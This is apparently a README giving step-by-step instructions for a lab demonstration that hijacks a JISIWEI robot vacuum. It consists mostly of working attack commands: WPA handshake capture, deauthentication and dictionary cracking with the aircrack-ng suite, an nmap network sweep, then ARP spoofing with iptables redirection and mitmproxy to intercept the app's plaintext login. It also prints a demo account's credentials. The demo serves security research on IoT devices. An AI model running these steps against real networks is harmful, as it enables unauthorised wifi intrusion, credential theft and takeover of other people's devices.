 # HOW TO DEMO

## Setup
A computer with these tools have to be fixed:
- **Android Smartphone**, with the JISIWEI application installed. iOS app can be found here: https://apps.apple.com/us/app/极思维机器人/id937665306 and the APK file for the Android app is found in this repository.
- **USB cable**, for connecting smarphone to PC
- **Aircrack-ng**, for cracking the wifi-password
- **nmap**, used for finding devices in network
- **arpspoof**, needed for transparant proxy
- **mitmproxy**, proxy used for looking at HTTP packets
- **Wireless Network Adapter**, needed for cracking the wifi and connecting to wifi
- **Wireless Router**, with relatively easy password for dictionary attack
- **JISIWEI Vacuum Cleaner Robot**

The computer **Dell OptiPlex 7070** should have everything installed. If you use the **TP-Link High-Gain 150Mbps** wireless adapter, you won't have to install any necessary drivers.

## Step 1
Use Aircrack-ng with the wireless network adapter to crack the password to the router.

But first we have to set the wireless adapter to monitor mode, Either run the script **monitor_mode.sh** or do the following:
:
```
rfkill unblock all
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

We can then check what networks are available in the area:

```
airodump-ng wlan0
```

Take the BSSID and channel from the WIFI we will hack and do the following:
```
airodump-ng -c [channel for wifi] --bssid [BSSID for wifi] -w psk wlan0
```
We will now wait on a WPA handshake, we could make this process faster by taking a BSSID of a host that is connected to the wifi.
Easiest way to accomplish this is by having your smartphone connected to the wifi.

```
aireplay-ng -0 0 -a [BSSID of wifi] -c [BSSID of host] wlan0
```

When we have the handshake you can terminate the previous programs. 

Now use aircrack-ng with a password list and get the password.

```
aircrack-ng -w rockyou.txt -b [BSSID of wifi] psk*.cap
```

Now you can set the mode for the wireless adapter to Auto and then login to the wifi. Either run the script auto_mode.sh or do the following:

```
ifconfig wlan0 down
iwconfig wlan0 mode Auto
ifconfig wlan0 up
```

## Step 2
Login to the wifi.

Use Nmap to see the devices in the network.
```
nmap -sn 192.168.1.127/24
```
Check ports on all the devices found in the network. We will need the router and a phone.


## Step 3
Either run the script **spoof.sh** or do all the steps down below.

First we will setup port forwarding before using arpspoof and mitmproxy:

```
sysctl -w net.ipv4.ip_forward=1
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 443 -j REDIRECT --to-port 8080
```

Then open make sure to have three terminals opened and each command in separate terminals:

```
arpspoof -i wlan0 -t [PHONE_IP] [ROUTER_IP]
arpspoof -i wlan0 -t [ROUTER_IP] [PHONE_IP] 
```

Start mitmproxy in transparent mode in the third terminal and wait till someone logs in to the robot on the same network.

```
mitmproxy --mode transparent --showhost
```

Use the smartphone and log in to the JISIWEI application while on the same network.

Use the credentials:

username: hackmanhacker9@gmail.com

password: proofofconcept

When you have logged in you can see the credentials in the HTTP request. Meaning that the attacker now has access to those credentials and is now able to login to the app and controll the vacuum cleaner robot.

## Step 4

Login to the application using the smartphone showing that it is the same credentials and use the functions of the application.
The attacker could then login whenever they pleases without being in the network.
Using an android device you could display the screen of the phone on a the bigger screen. The "USB-Debug" has to be allowd, which can be found in the developer settings on the smarthphone. Use the following tool: 
```
srcpcopy 
```